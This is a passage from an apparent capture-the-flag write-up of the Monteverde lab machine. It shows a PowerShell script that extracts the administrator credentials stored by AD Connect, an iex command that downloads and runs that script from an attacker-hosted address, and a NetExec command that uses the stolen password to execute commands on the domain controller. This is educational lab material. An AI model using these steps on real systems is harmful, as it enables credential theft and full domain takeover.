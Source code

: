 ```bash
$domain = select-xml -Content $config -XPath "//parameter[@name='forest-login-domain']" | select @{Name = 'Domain'; Expression = {$_.node.InnerXML}}
$username = select-xml -Content $config -XPath "//parameter[@name='forest-login-user']" | select @{Name = 'Username'; Expression = {$_.node.InnerXML}}
$password = select-xml -Content $decrypted -XPath "//attribute" | select @{Name = 'Password'; Expression = {$_.node.InnerText}}

Write-Host ("Domain: " + $domain.Domain)
Write-Host ("Username: " + $username.Username)
Write-Host ("Password: " + $password.Password)
```

This is the final script we can use we can simply download this and execute using iex

```bash
PS C:\Users\mhope\Documents> iex(new-object net.webclient).downloadstring('http://10.10.16.13/decrypt.ps1')
AD Connect Sync Credential Extract POC (@_xpn_)

Domain: MEGABANK.LOCAL
Username: administrator
Password: d0m@in4dminyeah!
```

And here we got our creds for the user administrator 

```bash
nxc smb 10.10.10.172 -u Administrator -p 'd0m@in4dminyeah!' -x 'whoami'         
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\Administrator:d0m@in4dminyeah! (Pwn3d!)
SMB         10.10.10.172    445    MONTEVERDE       [+] Executed command via wmiexec
SMB         10.10.10.172    445    MONTEVERDE       megabank\administrator
```
